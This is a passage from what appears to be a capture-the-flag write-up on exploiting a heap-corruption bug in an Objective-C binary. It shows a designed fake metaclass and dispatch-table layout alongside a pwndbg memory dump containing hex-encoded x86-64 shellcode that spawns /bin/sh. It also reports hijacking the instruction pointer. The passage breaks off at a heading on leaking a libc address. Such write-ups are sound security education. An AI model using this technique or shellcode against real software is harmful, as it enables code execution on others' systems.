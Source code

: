 Here's my design:
```code
0x19768b0:	0x00000000019768c0	0x0000000000000021
0x19768c0:	0x0000000000601400	0x0000000000000000 // turtle metaclass
0x19768d0:	0x0000000000000000	0x0000000000000000 // shellcode
0x19768e0:	0x0000000000000000	0x0000000000000000 // shellcode
0x19768f0:	0x0000000000000000	0x0000000000000000
0x1976900:	0x0000000001976930	0x0000000000000000 // &dtable
0x1976910:	0x0000000000000000	0x0000000000000021
0x1976920:	0x0000000000000000	0x00000000019a3230
0x1976930:	0x00000000019768d0	0x0000000001976930 // &shellcode; &&shellcode
0x1976940:	0x0000000000000000	0x0000000000000000
0x1976950:	0x0000000000000d2c	0x0000000000000000 // used during lookup
0x1976960:	0x0000000000000000	0x0000000000000000
0x1976970:	0x0000000000000000	0x0000000000000021
```

And implemented:
```code
pwndbg> x /26xg 0xdd88b0
0xdd88b0:	0x0000000000dd88c0	0x0000000000000021
0xdd88c0:	0x0000000000601400	0x0000000000000000
0xdd88d0:	0x529948c4fe58426a	0x2f2f6e69622fbf48
0xdd88e0:	0xd089495e54576873	0x000000050fd28949
0xdd88f0:	0x0000000000000000	0x0000000000000000
0xdd8900:	0x0000000000dd8930	0x0000000000000000
0xdd8910:	0x0000000000000000	0x0000000000000021
0xdd8920:	0x0000000000000000	0x0000000000e05230
0xdd8930:	0x0000000000dd88d0	0x0000000000dd8930
0xdd8940:	0x0000000000000000	0x0000000000000000
0xdd8950:	0x0000000000000000	0x0000000000000d2c
0xdd8960:	0x0000000000000000	0x0000000000000000
0xdd8970:	0x0000000000000000	0x0000000000000021
```
Running it...

![attempt_to_execute_shellcode](./attempt_to_execute_shellcode.png)

So I demonstrated to myself that I could gain control of the instruction pointer, but of course I couldn't execute code in the heap!

## Figuring out how to leak a `libc` address
